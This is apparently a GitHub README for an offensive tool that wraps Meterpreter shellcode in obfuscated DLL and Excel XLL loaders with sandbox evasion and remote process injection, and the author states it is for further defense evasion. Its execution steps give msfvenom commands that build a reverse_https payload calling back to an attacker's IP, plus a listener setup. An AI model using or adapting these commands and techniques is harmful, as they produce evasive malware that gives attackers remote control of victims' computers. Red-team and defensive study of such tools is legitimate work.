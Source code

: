 # I will be modifying the templates for further defense evasion @iSuperstar

### C++ shellcode launcher

A collection of DLL wrappers around various shellcode injection and obfuscation techniques. Based on the [charlotte](https://github.com/9emin1/charlotte) tool.

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64

python dll4shell.py -e xor -o dll

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

Techniques used (`-e` parameter):

|Value           |Obfuscation method, Details    |Injection type               |Code invocation              |
|----------------|-------------------------------|-----------------------------|-----------------------------|
|xor             |XOR                            |Local | VirtualAlloc, CreateThread   |
|xor1            |XOR, sandbox evasion           |Remote | VirtualAllocEx, CreateRemoteThread|
|xor2            |XOR, sandbox evasion           |Local  | hHeapAlloc, hCreateThread    |
|shift           |Cezar                          |Local  | VirtualAlloc, CreateThread   |
|shift1          |Cezar, sandbox evasion         |Remote  | VirtualAllocEx, CreateRemoteThread   |

Outputs (`-o` parameter):

|Value          |Details                        |
|---------------|-------------------------------|
|dll            |DLL callable via rundll32|
|xll            |XLL callable via Add-Ins|
|payload        |save encrypted payload only|
